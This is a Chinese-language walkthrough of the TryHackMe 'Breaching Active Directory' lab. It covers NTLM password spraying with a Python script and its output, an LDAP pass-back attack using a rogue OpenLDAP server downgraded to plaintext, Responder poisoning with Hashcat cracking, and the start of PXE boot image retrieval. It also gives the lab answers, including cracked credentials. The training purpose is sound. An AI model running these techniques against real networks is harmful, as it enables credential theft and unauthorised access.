








# Breaching Active Directory

> [TryHackMe | Breaching Active Directory](https://tryhackme.com/room/breachingad)
>
> Updated in 2023-12-09
>
> 该网络涵盖了可用于获取第一组 AD 凭据的技术和工具，这些凭据可用于枚举 AD。
>
> This network covers techniques and tools that can be used to acquire that first set of AD credentials that can then be used to enumerate AD.

## Introduction to AD Breaches

全球《财富》1000 强企业中约有 90% 都在使用 Active Directory（AD 域）。如果一个组织的财产使用 Microsoft Windows，那么几乎可以保证会找到 AD。Microsoft AD 是用于管理 Windows 域网络的主流套件。然而，由于 AD 用于整个企业的身份和访问管理，因此它掌握着王国的钥匙，很可能成为攻击者的目标。

### 破坏活动目录

在我们利用 AD 配置错误进行权限升级、横向移动和目标执行之前，你首先需要初始访问权限。您需要获取一组有效的 AD 域初始凭据。由于 AD 服务和功能众多，获取一组初始 AD 凭据的攻击面通常很大。在本房间中，我们将讨论几种途径，但这绝不是一份详尽的清单。

在寻找第一组凭证时，我们并不关注与账户相关的权限；因此，即使是低权限账户也足够了。我们只是在寻找一种向 AD 域进行身份验证的方法，这样我们就可以对 AD 本身进行进一步的枚举。

### 学习目标

在本网络中，我们将介绍几种可用于攻破 AD 域的方法。这绝不是一个完整的列表，因为每天都有新的方法和技术被发现。不过，我们将在本网络中介绍以下恢复 AD 凭据的技术：

- NTLM 认证服务
- LDAP 绑定凭证
- 认证中继
- 微软部署工具包
- 配置文件

我们可以通过针对面向互联网的组织的系统或通过在组织的网络上植入恶意设备来使用这些技术进行安全评估。

## OSINT and Phishing

获取第一组 AD 证书的两种常用方法是开源情报 (OSINT) 和网络钓鱼。我们在此仅简要提及这两种方法，因为其他房间已经对它们进行了更深入的介绍。

### OSINT - 社会工程学

OSINT 用于发现已公开披露的信息。就 AD 凭据而言，发生这种情况可能有多种原因，例如：

- 用户在 [Stack Overflow](https://stackoverflow.com/) 等公共论坛上提问，但在问题中披露了自己的凭据等敏感信息。
- 开发人员将脚本硬编码到 [Github](https://github.com/) 等服务中。
- 在过去的漏洞事件中，由于员工使用工作账户注册其他外部网站，导致凭据泄露。[HaveIBeenPwned](https://haveibeenpwned.com/) 和 [DeHashed](https://www.dehashed.com/) 等网站提供了绝佳的平台，可用于确定某人的信息（如工作电子邮件）是否曾涉及公开的数据泄露事件。

通过使用 OSINT 技术，有可能恢复公开披露的凭证。如果我们幸运地找到了凭证，我们仍然需要找到一种方法来测试它们是否有效，因为 OSINT 信息可能已经过时。在任务 3 中，我们将讨论 NTLM 验证服务，它可能是测试凭证是否仍然有效的绝佳途径。

### Phishing - 钓鱼攻击

网络钓鱼是另一种入侵 AD 域的绝佳方法。网络钓鱼通常会诱使用户在恶意网页上提供凭据，或要求用户运行特定应用程序，从而在后台安装远程访问木马（RAT）。这是一种普遍的方法，因为 RAT 会在用户的上下文中执行，立即允许您冒充该用户的 AD 域账户。这就是为什么网络钓鱼是红蓝两队都非常重视的话题。

## NTLM Authenticated Services

### NTLM and NetNTLM

新技术局域网管理器（NTLM）是一套安全协议，用于在 AD 中验证用户身份。NTLM 可通过使用一种称为 NetNTLM 的基于挑战 - 响应的方案来进行身份验证。网络上的服务大量使用这种身份验证机制。不过，使用 NetNTLM 的服务也可能暴露在互联网上。以下是一些常用的例子：

- 公开 Outlook Web App (OWA) 登录门户的内部托管 Exchange（邮件）服务器。
- 远程桌面协议（ RDP ）服务。 暴露于互联网的服务器的
- 公开 VPN 端点。 与 AD 集成的
- 面向互联网并使用 NetNTLM 的 Web 应用程序。

NetNTLM 也常被称为 Windows 身份验证或 NTLM 身份验证，它允许应用程序在客户端和 AD 之间扮演中间人的角色。所有身份验证材料都以挑战的形式转发给域控制器，如果挑战成功完成，应用程序将对用户进行身份验证。

这意味着应用程序是代表用户进行身份验证，而不是直接在应用程序上对用户进行身份验证。这可以防止应用程序存储 AD 凭据，而 AD 凭据只应存储在域控制器上。该过程如下图所示：

<div style={{textAlign:'center'}}>


</div>

### 暴力登录攻击

如任务 2 所述，这些暴露的服务为测试使用其他方法发现的凭据提供了绝佳的位置。不过，这些服务也可以直接用于尝试恢复一组初始的有效 AD 凭据。如果我们在最初的红队侦察中恢复了有效的电子邮件地址等信息，我们或许可以尝试使用这些信息进行暴力攻击。

由于大多数 AD 环境都配置了账户锁定功能，因此我们无法运行完整的暴力破解攻击。相反，我们需要执行密码喷射攻击。我们不会尝试多个不同的密码，因为这可能会触发账户锁定机制，而是选择并使用一个密码，并尝试使用我们获得的所有用户名进行身份验证。不过，需要注意的是，这类攻击会产生大量失败的验证尝试，因此可以被检测到。

我们向您提供了一份在红队 OSINT 演习中发现的用户名列表。OSINT 演习还指出了该组织的初始登录密码，似乎是 "Changeme123"。虽然用户应该经常更改初始密码，但我们知道用户经常会忘记。我们将使用定制开发的脚本对托管在以下 URL 的网络应用程序进行密码喷射：

```plaintext
http://ntlmauth.za.tryhackme.com
```

导航至该 URL，我们可以看到它提示我们输入 Windows 身份验证凭据：

<div style={{textAlign:'center'}}>


</div>

:::tip

Firefox 的 Windows 身份验证插件非常容易失效。如果要手动测试凭证，建议使用 Chrome 浏览器。

:::

我们可以使用 Hydra 等工具来协助进行密码喷涂攻击。不过，最好还是自己编写这类攻击的脚本，这样可以更好地控制攻击过程。任务文件中提供了一个基本 python 脚本，可用于密码喷射攻击。下面的函数是脚本的主要组成部分：

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password:" + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username:" + user + "Password:" + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username:" + user)
    print ("[*] Password spray attack completed," + str(count) + "valid credential pairs found")
```

该函数将我们建议的密码和目标 URL 作为输入，并尝试使用文本文件中的每个用户名对 URL 进行身份验证。通过监控应用程序 HTTP 响应代码的差异，我们可以确定凭证对是否有效。如果凭证对有效，应用程序就会响应 200 HTTP（OK）代码。如果凭证对无效，应用程序将返回 401 HTTP（未授权）代码。

### 密码喷洒

我们可以使用以下命令运行该脚本：

```shell
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

我们为每个参数提供以下值：

- userfile - 包含我们用户名的文本文件 - “usernames.txt”
- fqdn - 与我们正在攻击的组织关联的完全限定域名 - “za.tryhackme.com”
- password - 我们要用于喷射攻击的密码 - “Changeme123”
- attackurl - 支持 Windows 身份验证的应用程序的 URL，如 `http://ntlmauth.za.tryhackme.com`

使用这些参数，我们应该从密码喷射攻击中获得一些有效的凭据对。

:::note 本地执行结果

```shell
$python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

:::

结合使用 OSINT 和 NetNTLM 密码喷射，我们现在拥有了第一个有效的凭据对，可用于进一步枚举 AD !

:::info Answer the questions below

使用 NTLM 的质询 - 响应身份验证机制的名称是什么？

```plaintext
NetNTLM
```

密码喷射脚本找到的第三个有效凭证对的用户名是什么？

```plaintext
gordon.stevens
```

密码喷射脚本找到了多少个有效的凭据对？

```plaintext
4
```

使用有效凭证对进行身份验证时，Web 应用程序显示的消息是什么？

```plaintext
Hello World
```

:::

## LDAP Bind Credentials

### LDAP

应用程序可以使用的另一种 AD 身份验证方法是轻量级目录访问协议（LDAP）身份验证。LDAP 身份验证与 NTLM 身份验证类似。不过，通过 LDAP 身份验证，应用程序可直接验证用户的凭据。应用程序有一对 AD 凭据，可以先用它来查询 LDAP，然后再验证 AD 用户的凭据。

LDAP 身份验证是与 AD 集成的第三方（非 Microsoft）应用程序常用的机制。这些应用程序和系统包括:

- Gitlab
- Jenkins
- 定制开发的网络应用程序
- Printers
- VPNs

如果这些应用程序或服务中的任何一个暴露在互联网上，就会出现与 NTLM 身份验证系统相同类型的攻击。但是，由于使用 LDAP 身份验证的服务需要一组 AD 凭据，这就开辟了更多的攻击途径。实质上，我们可以尝试恢复服务使用的 AD 凭据，以获得对 AD 的认证访问。通过 LDAP 进行身份验证的过程如下所示：

<div style={{textAlign:'center'}}>


</div>

如果你能在正确的主机（如 Gitlab 服务器）上站稳脚跟，可能只需读取配置文件就能恢复这些 AD 域凭据。这些凭据通常以纯文本形式存储在配置文件中，因为安全模型依赖于保持配置文件的位置和存储的安全，而不是其内容的安全。任务 7 将更深入地介绍配置文件。

### LDAP 回传攻击

不过，针对 LDAP 身份验证机制还有一种非常有趣的攻击，称为 LDAP 回传攻击。这是一种常见的针对网络设备（如打印机）的攻击，当你获得对内部网络的初始访问权限时，如在会议室中插入一个恶意设备。

当我们访问指定了 LDAP 参数的设备配置时，就可以实施 LDAP 回传攻击。例如，这可以是网络打印机的 Web 界面。通常，这些界面的凭据都是默认的，如 `admin:admin` 或 `admin:password` 。在这里，我们无法直接提取 LDAP 凭据，因为密码通常是隐藏的。不过，我们可以更改 LDAP 配置，如 LDAP 服务器的 IP 或主机名。在 LDAP 回传攻击中，我们可以将此 IP 修改为我们的 IP，然后测试 LDAP 配置，这将迫使设备尝试对我们的流氓设备进行 LDAP 身份验证。我们可以拦截这一验证尝试，以恢复 LDAP 凭据。

### 执行 LDAP 回传

该网络中有一台网络打印机，管理网站甚至不需要凭据。 导航至以下链接以查找打印机的设置页面：

```plaintext
http://printer.za.tryhackme.com/settings.aspx
```

<div style={{textAlign:'center'}}>


</div>

使用浏览器检查，我们还可以验证打印机网站是否至少足够安全，而不仅仅是将 LDAP 密码发送回浏览器：

<div style={{textAlign:'center'}}>



</div>

因此，我们有用户名，但没有密码。不过，当我们按下测试设置时，可以看到向域控制器发出了验证请求，以测试 LDAP 凭据。让我们尝试利用这一点，让打印机连接到我们，这样就会泄露凭据。为此，让我们使用一个简单的 Netcat 监听器来测试能否让打印机连接到我们。由于 LDAP 的默认端口是 389，我们可以使用以下命令：

```shell
nc -lvp 389
```

请注意，如果使用 AttackBox，则应首先使用 `service slapd stop` 禁用 slapd。然后，我们可以更改网络应用程序上的服务器输入框，指向我们的 IP，并按下测试设置。

您的 IP 将是 VPN IP，要么是 10.50.x.x IP，要么是 10.51.x.x IP。 您可以使用 ip a 列出所有接口。请确保使用此 IP，否则将无法获得连接。还请记下此 IP 的接口，因为稍后任务中会用到。

您应该会看到我们得到了一个回连，但有一个小问题：

<div style={{textAlign:'center'}}>



</div>

您可能需要多次尝试才能收到连接，但它应在 5 秒内作出回应。supportedCapabilities 响应说明我们遇到了问题。从本质上讲，打印机在发送凭证之前，正在尝试协商 LDAP 身份验证方法的详细信息。它将通过协商选择打印机和 LDAP 服务器都支持的最安全的身份验证方法。如果身份验证方法过于安全，则不会以明文传输凭证。对于某些身份验证方法，凭据根本不会通过网络传输！因此，我们不能只使用普通的 Netcat 来获取凭据。我们需要创建一个流氓 LDAP 服务器，并对其进行不安全配置，以确保以明文方式发送凭证。

### 托管恶意 LDAP 服务器

托管恶意 LDAP 服务器有多种方法，但我们将在本例中使用 OpenLDAP。如果您使用的是 AttackBox，那么 OpenLDAP 已经为您安装好了。但是，如果您使用的是自己的攻击机器，则需要使用以下命令安装 OpenLDAP：

```shell
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

不过，您还必须在 AttackBox 上配置自己的恶意 LDAP 服务器。首先，我们将使用以下命令重新配置 LDAP 服务器：

```shell
sudo dpkg-reconfigure -p low slapd
```

如果您想跳过服务器配置，请确保在请求时按 No：

<div style={{textAlign:'center'}}>


</div>

对于 DNS 域名，您要提供我们的目标域，即 `za.tryhackme.com`:

<div style={{textAlign:'center'}}>



</div>

组织名称也使用相同的名称：

<div style={{textAlign:'center'}}>


</div>

提供任何管理员密码：

<div style={{textAlign:'center'}}>



</div>

选择 MDB 作为要使用的 LDAP 数据库：

<div style={{textAlign:'center'}}>


</div>

对于最后两个选项，请确保清除时数据库不会被删除：

<div style={{textAlign:'center'}}>



</div>

在创建新数据库文件之前移动旧数据库文件：

<div style={{textAlign:'center'}}>


</div>

在使用恶意 LDAP 服务器之前，我们需要通过降级支持的身份验证机制来使其容易受到攻击。 我们希望确保我们的 LDAP 服务器仅支持 PLAIN 和 LOGIN 身份验证方法。 为此，我们需要创建一个新的 ldif 文件，并使用以下内容进行调用：

```plaintext
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

该文件具有以下属性：

- olcSaslSecProps： 指定 SASL 安全属性
- noanonymous： 禁用支持匿名登录的机制
- minssf： 指定可接受的最小安全强度，0 表示无保护。

现在我们可以使用 ldif 文件来修补我们的 LDAP 服务器，方法如下：

```shell
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

我们可以使用以下命令验证我们的恶意 LDAP 服务器的配置是否已应用（ 注意 ：如果您使用 Kali，您可能不会收到任何输出，但配置应该已生效，您可以继续执行后续步骤）：

<div style={{textAlign:'center'}}>


</div>

### 捕获 LDAP 凭证

我们的恶意 LDAP 服务器现已配置完毕。当我们点击 `http://printer.za.tryhackme.com/settings.aspx` 上的 "测试设置" 时，验证将以明文进行。如果你正确配置了流氓 LDAP 服务器，而它正在降级通信，你将会收到以下错误： "此区分名称包含无效语法"。如果收到此错误，可以使用 tcpdump 命令捕获凭据：

```shell
$sudo tcpdump -SX -i breachad tcp port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on breachad, link-type RAW (Raw IP), snapshot length 262144 bytes
......
20:46:01.053477 IP 10.200.92.201.61985 > 10.50.90.2.ldap: Flags [P.], seq 1011877014:1011877079, ack 1957733044, win 1027, length 65
        0x0000:  4500 0069 8f0c 4000 7f06 a0bd 0ac8 5cc9  E..i..@.......\.
        0x0010:  0a32 5a02 f221 0185 3c50 0496 74b0 a2b4  .2Z..!..<P..t...
        0x0020:  5018 0403 bc34 0000 3084 0000 003b 0201  P....4..0....;..
        0x0030:  0d60 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
        0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
        0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..tryhackmel
        0x0060:  6461 7070 6173 7331 40                   dappass1@
```

现在我们又有了一组有效的 AD 域凭据！通过使用 LDAP 回传攻击和降级支持的身份验证机制，我们可以截获明文凭据。
:::info Answer the questions below

针对 Windows 身份验证系统不常见的 LDAP 身份验证系统可以执行什么类型的攻击？

```plaintext
LDAP Pass-back Attacks
```

我们允许在恶意 LDAP 服务器上使用哪两种身份验证机制来降级身份验证并使其成为明文？

```plaintext
LOGIN,PLAIN
```

与 svcLDAP 帐户关联的密码是什么？

```plaintext
tryhackmeldappass1@
```

:::

## Authentication Relays

接着，我们来看看针对更广泛的网络身份验证协议的攻击。在 Windows 网络中，有大量服务在相互对话，允许用户使用网络提供的服务。

这些服务必须使用内置的身份验证方法来验证传入连接的身份。在任务 2 中，我们探讨了网络应用程序中使用的 NTLM 身份验证。在本任务中，我们将深入研究从网络角度看这种身份验证的方式。不过，在本任务中，我们将重点关注 SMB 使用的 NetNTLM 身份验证。

### 服务器消息块

服务器消息块（SMB）协议允许客户端（如工作站）与服务器（如文件共享）通信。在使用 Microsoft AD 域的网络中，SMB 负责管理从网络间文件共享到远程管理的一切事务。甚至当你尝试打印文件时，电脑收到的 "缺纸" 警报也是 SMB 协议的杰作。

然而，早期版本的 SMB 协议被认为安全性不足。人们发现了一些漏洞和漏洞利用，可以利用这些漏洞恢复凭证，甚至在设备上执行代码。虽然其中一些漏洞在较新版本的协议中得到了解决，但由于传统系统不支持较新版本，因此企业通常不会强制使用这些版本。我们将研究利用 SMB 进行 NetNTLM 身份验证的两种不同漏洞：

- 由于 NTLM 挑战可以被拦截，我们可以使用离线破解技术恢复与 NTLM 挑战相关的密码。不过，这种破解过程要比直接破解 NTLM 哈希值慢得多。
- 我们可以使用流氓设备发动中间人攻击，在客户端和服务器之间转发 SMB 身份验证，这样我们就能获得活动身份验证会话并访问目标服务器。

### LLMNR, NBT-NS, and WPAD

在本任务中，我们将对 SMB 使用过程中的身份验证进行一番研究。我们将使用 Responder 尝试拦截 NetNTLM 挑战以破解它。网络上通常会有很多这样的挑战。有些安全解决方案甚至会对整个 IP 范围进行扫描，以恢复主机信息。有时，由于过期的 DNS 记录，这些身份验证挑战可能会最终击中你的恶意设备，而不是目标主机。

Responder 允许我们通过在 NetNTLM 身份验证过程中毒化响应来执行 "中间人" 攻击，诱使客户端与你对话，而不是与他们想要连接的实际服务器对话。在真实局域网中，Responder 会尝试毒化检测到的任何链路本地组播名称解析 (LLMNR)、NetBIOS 名称服务 (NBT-NS) 和网络代理自动发现 (WPAD) 请求。在大型 Windows 网络上，这些协议允许主机为同一本地网络上的所有主机执行自己的本地 DNS 解析。主机可以通过发送 LLMNR 请求并查看是否有主机响应，首先尝试确定它们正在寻找的主机是否在同一本地网络上，而不是给 DNS 服务器等网络资源造成过重负担。NBT-NS 是 LLMNR 的前导协议，而 WPAD 请求则是为了尝试为未来的 HTTP（s）连接寻找代理。

由于这些协议依赖于本地网络上的广播请求，我们的恶意设备也会收到这些请求。通常情况下，这些请求会被直接丢弃，因为它们并非针对我们的主机。但是，Responder 会主动监听这些请求，并发送中毒响应，告诉请求主机我们的 IP 与请求的主机名相关联。通过毒化这些请求，Responder 试图迫使客户端连接到我们的 AttackBox。在同一行中，它开始托管多个服务器，如 SMB、HTTP、SQL 等，以捕获这些请求并强制进行身份验证。

### 拦截 NetNTLM 挑战

需要注意的一点是，Responder 本质上是试图通过毒化连接来确保您拦截连接，从而赢得竞赛条件。这意味着 Responder 通常只能对本地网络上的身份验证挑战施毒。由于我们是通过 VPN 连接到网络的，因此我们只能毒化在该 VPN 网络上出现的验证挑战。为此，我们模拟了一个每 30 分钟运行一次的验证请求。这意味着，在拦截 NetNTLM 挑战和响应之前，你可能需要等待一段时间。

虽然 Responder 可以拦截更多的身份验证请求，并通过连接到企业局域网的流氓设备进行毒化，但我们必须明白，这种行为可能会造成破坏，从而被检测到。通过毒化身份验证请求，正常的网络身份验证尝试将失败，这意味着用户和服务将无法连接到他们想要连接的主机和共享。在安全评估中使用 Responder 时，请牢记这一点。

Responder 已经安装在 AttackBox 上。不过，如果您没有使用 AttackBox，可以从以下软件仓库下载并安装：`https://github.com/lgandx/Responder` 。我们将设置 Responder 在连接到 VPN 的接口上运行：

```shell
sudo responder -I breachad
```

如果您使用的是 AttackBox，则无法启动所有 Responder 服务，因为其他服务已经在使用这些端口。不过，这不会影响本任务。Responder 现在将监听收到的任何 LLMNR、NBT-NS 或 WPAD 请求。我们会让 Responder 在真正的局域网上运行一段时间。但是，在我们的情况下，我们必须通过让其中一台服务器尝试对 VPN 上的机器进行身份验证来模拟这种中毒。让 Responder 运行一段时间（平均 10 分钟，呼吸一下新鲜空气！）后，您应该会收到一个 SMBv2 连接，Responder 可以利用该连接诱导并提取 NTLMv2-SSP 响应。它看起来像这样

<div style={{textAlign:'center'}}>


</div>

如果我们使用的是流氓设备，我们可能会运行 Responder 一段时间，捕获几个响应。一旦有了几个，我们就可以开始对响应进行离线破解，希望能恢复其相关的 NTLM 密码。如果账户配置了弱密码，我们就很有可能成功破解它们。将 NTLMv2-SSP 哈希值复制到文本文件中。然后，我们将使用本任务下载文件中提供的密码列表和 Hashcat，尝试使用以下命令破解哈希值：

```shell
hashcat -m 5600 <hash file> <password file> --force
```

密码文件已在 AttackBox 上的 `/root/Rooms/BreachingAD/task5/` 目录中为您提供，或作为可下载的任务文件提供。我们使用与 NTLMv2-SSP 相对应的哈希猫哈希类型 5600。如果使用自己的机器，则必须先安装 Hashcat。

现在，我们能破解的任何哈希值都将为我们提供用于破解的 AD 凭据！

### 传递挑战

不过，在某些情况下，我们可以更进一步，尝试转发挑战，而不是直接捕获挑战。由于这种攻击取决于相关账户的权限，因此在事先不了解账户情况的情况下要做到这一点比较困难。我们需要一些对我们有利的东西：

- 要么禁用 SMB 签名，要么启用但不强制执行。当我们执行中继时，我们会对请求进行细微修改，以便将其传递出去。如果启用了 SMB 签名，我们就无法伪造信息签名，这意味着服务器会拒绝它。
- 相关账户需要服务器上的相关权限才能访问请求的资源。理想情况下，我们希望转发具有服务器管理权限的账户的挑战和响应，因为这样我们才能在主机上站稳脚跟。
- 由于我们在技术上还没有 AD 域的立足点，因此需要猜测哪些账户在哪些主机上拥有权限。如果我们已经攻破了 AD 域，就可以先进行一些初步的枚举，通常就是这种情况。

这就是盲目中继通常不受欢迎的原因。理想的情况是，首先使用其他方法攻破 AD 域，然后执行枚举，以确定与被入侵账户相关的权限。在此基础上，您通常可以在整个域内执行横向移动以实现权限升级。不过，从根本上了解中继攻击是如何工作的仍然是有好处的，如下图所示：

<div style={{textAlign:'center'}}>


</div>

:::info Answer the questions below

我们可以用来毒害和捕获网络上的身份验证请求的工具的名称是什么？

```plaintext
Responder
```

与捕获的挑战关联的用户名是什么？

```plaintext
svcFileCopy
```

与捕获的质询相关的破解密码的值是多少？

```plaintext
FPassword1!
```

:::

## Microsoft Deployment Toolkit

大型企业需要工具来部署和管理企业的基础设施。在大型企业中，IT 人员不可能使用 DVD 甚至 USB 闪存驱动器在每台机器上安装软件。幸运的是，微软已经提供了管理设备所需的工具。但是，我们可以利用这些工具中的错误配置来入侵 AD 域。

### MDT and SCCM

微软部署工具包（MDT）是微软的一项服务，可帮助实现微软操作系统（OS）的自动化部署。由于基本映像可以在一个中心位置进行维护和更新，因此大型企业可以使用 MDT 等服务帮助更高效地在其资产中部署新映像。

MDT 通常与微软的系统中心配置管理器（SCCM）集成，后者负责管理所有微软应用程序、服务和操作系统的所有更新。MDT 用于新的部署。从本质上讲，它允许 IT 团队预先配置和管理启动映像。因此，如果他们需要配置新机器，只需插入网线，一切都会自动进行。他们可以对启动映像进行各种更改，例如安装默认软件，如 Office365 和组织选择的防病毒软件。它还能确保在首次安装运行时更新新的构建。

SCCM 几乎可以看作是 MDT 的扩展和老大哥。软件安装后会发生什么？那么，SCCM 就可以进行这种补丁管理。它允许 IT 团队查看整个系统中安装的所有软件的可用更新。团队还可以在沙箱环境中测试这些补丁，确保它们在集中部署到所有域连接的机器之前是稳定的。这大大方便了 IT 团队的工作。

不过，MDT 和 SCCM 等提供基础架构集中管理的工具也可能成为攻击者的目标，他们会试图接管系统中的大部分关键功能。虽然 MDT 可以通过多种方式进行配置，但在本任务中，我们将专门关注一种称为预启动执行环境 (PXE) 启动的配置。

### PXE Boot

大型企业使用 PXE 启动允许连接到网络的新设备通过网络连接直接加载和安装操作系统。MDT 可用于创建、管理和托管 PXE 启动映像。PXE 启动通常与 DHCP 集成，这意味着如果 DHCP 分配了 IP 租约，主机就可以请求 PXE 启动映像并启动网络操作系统安装过程。通信流程如下图所示：

<div style={{textAlign:'center'}}>



</div>

执行该过程后，客户端将使用 TFTP 连接下载 PXE 引导映像。我们可以利用 PXE 引导镜像达到两种不同的目的：

- 在 PXE 启动完成后，注入权限升级向量（如本地管理员账户），以获得操作系统的管理访问权限。
- 执行密码刮擦攻击，恢复安装过程中使用的 AD 域凭据。

在本任务中，我们将重点关注后者。我们将尝试恢复安装过程中与 MDT 服务关联的部署服务帐户，以进行密码刮擦攻击。此外，还有可能恢复用于无人值守安装应用程序和服务的其他 AD 域帐户。

### PXE 启动映像检索

由于 DHCP 有点麻烦，我们将绕过此攻击的初始步骤。我们将跳过试图从 DHCP 请求 IP 和 PXE 启动预配置详细信息的部分。我们将从这一步开始手动执行攻击的其余部分。

通过 DHCP 收到的有关 PXE 启动预配置的第一条信息是 MDT 服务器的 IP。在我们的案例中，你可以从 TryHackMe 网络图中获取该信息。

第二项信息是 BCD 文件的名称。这些文件存储了与不同类型架构的 PXE Boots 相关的信息。要检索这些信息，你需要连接到这个网站：`http://pxeboot.za.tryhackme.com` 。它将列出各种 BCD 文件：

<div style={{textAlign:'center'}}>



</div>

通常，您可以使用 TFTP 请求每个 BCD 文件，并枚举所有文件的配置。不过，由于时间关系，我们将重点关注 x64 架构的 BCD 文件。复制并存储该文件的全名。在本练习的其余部分，我们将使用 `x64{7B...B3}.bcd` 这个名称占位符，因为 MDT 每天都会重新生成文件及其名称。每次看到这个占位符时，请记住用特定的 BCD 文件名替换它。还要注意的是，如果网络刚刚启动，这些文件名只会在网络激活 10 分钟后更新。

有了这些从 DHCP 恢复的初始信息（眨眨眼），我们就可以枚举和检索 PXE 启动映像了。在接下来的几个步骤中，我们将在 THMJMP1 上使用 SSH 连接，因此请使用以下命令验证 SSH 会话：

```shell
ssh thm@THMJMP1.za.tryhackme.com
```

以及密码：`Password1@`

要确保网络中的所有用户都能使用 SSH，首先要创建一个包含用户名的文件夹，并将 powerpxe repo 复制到该文件夹中：

```shell
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```

